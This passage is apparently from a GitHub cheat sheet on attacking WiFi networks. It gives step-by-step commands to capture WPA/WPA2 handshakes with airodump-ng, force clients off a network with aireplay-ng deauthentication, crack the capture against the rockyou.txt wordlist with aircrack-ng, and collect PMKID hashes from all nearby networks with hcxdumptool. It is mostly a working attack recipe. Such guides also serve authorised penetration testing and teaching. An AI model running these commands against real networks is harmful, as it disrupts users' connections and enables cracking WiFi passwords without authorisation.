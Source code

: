 Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-kismet) or WiFi Pineapple to find more information about wireless access points, e.g. their MAC address, vendor's name, etc.

## 3. Cracking

Check if a wireless interface supports packet injection:

```fundamental
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### WPA/WPA2 Handshake

Monitor a WiFi network to capture a WPA/WPA2 4-way handshake:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start the dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack

Crack the WPA/WPA2 authentication without deauthenticating clients.

Install required tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install hcxdumptool
```

\[Optional\] Install required tool on WiFi Pineapple Nano:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```fundamental
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional\] Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```
